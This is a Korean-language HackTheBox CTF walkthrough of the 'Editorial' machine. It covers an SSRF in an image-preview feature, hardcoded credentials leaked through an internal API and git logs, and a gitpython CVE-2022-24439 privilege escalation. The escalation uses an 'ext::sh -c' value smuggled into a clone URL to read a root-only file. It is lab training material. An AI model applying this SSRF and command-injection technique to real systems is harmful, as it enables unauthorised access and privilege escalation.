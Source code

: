 ```yaml
---
layout: single
title: (HTB) Editorial - WriteUP
categories: HTB
tag: [SSRF, RCE, HTB,HackTheBox, Pentest, Pentesting, git, gitpython]
toc: true
author_profile: false
---
```


해당 문제는 [https://app.hackthebox.com/machines/Editorial](https://app.hackthebox.com/machines/Editorial) 에서 확인할 수 있습니다.

***

# Archangel 시스템 모의 침투
## 수행 내용
1. 정보 수집
2. 도멩인 획득 후 IP와 매칭
3. 사이트 내에 사진 Preview 기능에서 SSRF 취약점 식별
4. SSRF 공격을 통해 내부 5000번 포트에서 API 경로 노출 API 경로 내 파일 안에 계정정보 하드코딩
5. prod 계정의 sudo 권한에서 gitpython 사용부분의 취약점 악용으로 RCE 를 통한 root 경로 내 파일 read
## 정보수집
### Nmap 스캔 - 사용중인 포트 및 배너, 기본 정보 수집

```
nmap -p- -Pn --open --min-rate 5000 -T4 -sV  -oA ./Archangel {target_ip}
```

```
# Nmap 7.93 scan initiated Tue Jul  2 20:19:01 2024 as: nmap -p- --open -n -T 4 -sV -o result.txt 10.10.11.20
Nmap scan report for 10.10.11.20
Host is up (0.30s latency).
Not shown: 65308 closed tcp ports (reset), 225 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  2 20:20:29 2024 -- 1 IP address (1 host up) scanned in 88.38 seconds
```

- 22(SSH), 80(http) 포트로 서비스 동작중을 확인함.
- SSH의 경우 Username 열거에 관한 취약점 제외 유의미한 취약점은 없는듯 함.

![그림 1-1](image.png)
- 80 웹 서비스 포트가 동작중이지만, 해당 타겟 IP로 웹 사이트는 접근이 되지 않고 있다.

![그림 1-2](image-1.png)
- 10.10.11.20 에 대해 http://editorial.htb 로 리다이렉트 되며, 현재 10.10.11.20 ip가 제대로 http://editorial.htb 로 매칭되지 않는 것을 확인

![그림 1-3](image-2.png)
- /etc/hosts 파일에서 IP와 도메인 매칭

![그림 1-4](image-3.png)
- 정상적으로 공격 타겟 웹 페이지에 접근할 수 있음

![그림 1-5](image-4.png)
- 해당 사이트의 기능을 살펴보던중 특정 공격 앤드포인트를 탐색함
- 해당 기능은 사용자의 URI 혹은 사진을 업로드시 preview를 통해 미리보기가 가능하며,

![그림 1-6](image-5.png)
- 특정 파일명으로 변환되어 다운로드 또한 가능함

```
http://editorial.htb/static/uploads/5b7f6b31-2af4-4755-bd67-b6ab3c479c5f
```

- 또한 static/uploads 라는 경로가 노출되고 있음.
- 이 때 서버측에서 로직을 통해 사용자에게 사진을 반환 및 Preview하고 있는걸로 보아
- SSRF 공격의 잠재적 앤드포인트가 될 수 있음

![그림 1-7](image-6.png)
- 해당 URI 경로를 로컬 루프백 주소인 127.0.0.1 로 요청시 응답값이 존재하는 것을 확인
- 이 때 서버내의 내부포트로 동작중인 서비스가 존재할 수 있으므로 각 포트별로 부르트포싱 하여 존재 유무 확인

![그림 1-8](image-7.png)
- 5000포트에서 jpg 파일이 아닌 다른 형태의 파일이 식별됨 

![그림 1-9](image-8.png)
- 해당 파일을 확인해보면 json 형식으로 API 경로가 노출되고 있음
- /api/latest/metadata/messages/authors 경로를 확인해보기로함

![그림 1-10](image-9.png)
- dev 유저의 계정 정보가 하드코딩되어 고스란히 노출되고 있어
- dev 유저로의 ssh 접근이 가능함
- id : dev
- pw : dev080217_devAPI!@

![그림 1-11](image-10.png)
- dev 계정으로 접근 후 내부 시스템 탐색 결과 app -> .git -> logs -> HEAD 파일 내에 commit 정보가 존재
- "change(api): downgrading prod to dev" 부분 즉 prod 계정을 dev로 다운그레이드 했다고 한다.
- 현재 시스템에 prod계정이 존재하므로 해당 로그를 살펴보기로 함

![그림 1-12](image-11.png)
- 아래쪽 내용을 보게되면 prod 계정 또한 하드코딩된 채로 노출되고 있어
- 이를 통해 prod 계정으로의 횡적이동이 가능하다.
- id : prod
- pw : 080217_Producti0n_2023!@

![그름 1-13](image-12.png)
- prod 계정의 sudo 권한이 존재하며, "/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *" 명령어 사용이 가능하다
- clone_prod_Change.py 로 인자를 하나 받게되며.
- 입력받은 인자를 가지고 r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"]) 를 수행하게 되는데
- 이 때 clone_from 의 url_to_clone 부분에서 취약점이 발생한다.
- CVE-2022-24439 으로 명명된 해당 취약점은 악의적으로 조작된 원격 URL을 clone 명령에 삽입할 수 있으며, 이 취약점을 악용하는 것은 라이브러리가 입력 인수를 충분히 검증 않고 외부에서 git을 호출하기 때문에 가능하다. 이는 ext 전송 프로토콜을 활성화할 때만 해당된다.
- 즉, 본인 권한 이상의 권한을 사용하여 명령을 수행할 수 있게 된다.

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >% /tmp/root.txt'
```
- 위 명령을 통해 /root/root.txt 파일을 tmp 경로로 가져올 수 있게된다.


